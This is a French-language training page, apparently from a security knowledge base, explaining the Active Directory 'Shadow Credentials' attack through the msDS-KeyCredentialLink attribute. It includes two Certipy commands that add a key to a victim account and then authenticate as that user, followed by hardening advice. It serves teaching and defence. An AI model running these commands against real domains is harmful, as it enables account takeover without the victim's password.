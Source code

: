 ```yaml
---
title: Shadow Credentials
date: "2025-07-15"
draft: false
---
```


# 🕵️‍♂️ Shadow Credentials

## Qu'est-ce que les Shadow Credentials ?

Les **Shadow Credentials** sont une technique d'attaque Active Directory permettant à un attaquant d'ajouter des clés d'authentification (clé publique) à un compte utilisateur, lui permettant de s'authentifier sans mot de passe.

## 🎯 Objectifs pédagogiques

- Comprendre le mécanisme des clés d'authentification dans AD
- Savoir comment exploiter Shadow Credentials pour l'élévation de privilèges

## 📋 Exemples de vulnérabilités et exploitation

### Vulnérabilités courantes

- **Permissions d'écriture sur msDS-KeyCredentialLink** : Si un utilisateur peut écrire sur cet attribut, il peut ajouter une clé d'authentification.
- **Absence d'audit sur les modifications d'attributs sensibles** : Rend l'attaque difficile à détecter.

### Scénario d'exploitation

1. **Ajout d'une clé à un compte cible** :
   - L'attaquant génère une paire de clés (privée/publique) et ajoute la clé publique à l'attribut `msDS-KeyCredentialLink` du compte cible.
2. **Authentification avec la clé privée** :
   - L'attaquant s'authentifie en tant que l'utilisateur cible sans connaître son mot de passe.

### Commandes d'exploitation avec Certipy

```bash
# Générer une nouvelle clé et l'ajouter à un compte cible
certipy-ad shadow -u attacker -p 'Password123!' -target-user victim -dc-ip 10.10.10.2 -domain ad.local

# S'authentifier avec la clé privée générée
certipy-ad auth -u victim@ad.local -key <clé_privée.pem> -dc-ip 10.10.10.2
```

## 🛡️ Bonnes pratiques

- Restreindre les droits d'écriture sur l'attribut msDS-KeyCredentialLink
- Surveiller les modifications de cet attribut dans les logs
- Mettre à jour et auditer régulièrement les permissions AD

## 📚 Ressources utiles

- [Shadow Credentials Attack - SpecterOps](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
- [Certipy Documentation](https://github.com/ly4k/Certipy)
- [HackTricks - Shadow Credentials](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/shadow-credentials)

---

_Dernière mise à jour : 15 juillet 2025_
